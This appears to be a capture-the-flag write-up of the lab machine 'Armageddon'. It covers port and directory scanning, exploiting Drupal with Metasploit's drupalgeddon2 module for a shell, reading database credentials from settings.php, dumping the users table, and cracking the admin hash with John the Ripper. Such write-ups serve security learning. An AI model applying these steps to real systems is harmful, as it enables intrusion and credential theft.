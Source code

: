 First what we nned to do is RECON, to recognaiz what's running on the server! Let's start with nmap 

```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV 10.10.10.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 12:20 EDT
Nmap scan report for 10.10.10.233
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon
```

We can't see there any intresting port, only standard port SSH and HTTP
I turn on the gobuster, found robots.txt but there is any intresting directory/information

Here's results from gobuster
```
/.hta                 (Status: 403) [Size: 206]
/.hta.php             (Status: 403) [Size: 210]
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd.php        (Status: 403) [Size: 215]
/.htaccess.php        (Status: 403) [Size: 215]
/cgi-bin/             (Status: 403) [Size: 210]
/cron.php             (Status: 403) [Size: 7388]
/includes             (Status: 301) [Size: 237] [--> http://10.10.10.233/includes/]
/index.php            (Status: 200) [Size: 7440]
/index.php            (Status: 200) [Size: 7440]
/install.php          (Status: 200) [Size: 3172]
/misc                 (Status: 301) [Size: 233] [--> http://10.10.10.233/misc/]
/modules              (Status: 301) [Size: 236] [--> http://10.10.10.233/modules/]
/profiles             (Status: 301) [Size: 237] [--> http://10.10.10.233/profiles/]
/robots.txt           (Status: 200) [Size: 2189]
/scripts              (Status: 301) [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                (Status: 301) [Size: 234] [--> http://10.10.10.233/sites/]
/themes               (Status: 301) [Size: 235] [--> http://10.10.10.233/themes/]
/update.php           (Status: 403) [Size: 4057]
/web.config           (Status: 200) [Size: 2200]
/xmlrpc.php           (Status: 200) [Size: 42]
/xmlrpc.php           (Status: 200) [Size: 42]
```
But in directory /install.php i found more istresting think ```Drupal already installed``` i found some intresting modul in metasploit ```exploit(unix/webapp/drupal_drupalgeddon2)``` and i insert missing data RHOST, LHOST and i got the meterpreter.

![obraz](https://github.com/Anogota/Armageddon/assets/143951834/304bc908-e3b7-49ed-9cbd-efa733b25d7b)

in the meterpreter i wrote shell and i got it ```id uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0``` i found something intresting on hacktricks about the drupal how to dump all database, but i need the password to dump it. I found the password on the server.
Here you can find the creds /var/www/html/sites/default/settings.php
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
Now when we have the password we can try to dump the database
```
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'use drupal; select * from users'
```
and i got the username and hash 
```
brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
Let's crack this hash with help johntheripper
```echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' >> hash.txt```
```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```
And you got the password ```booboo```
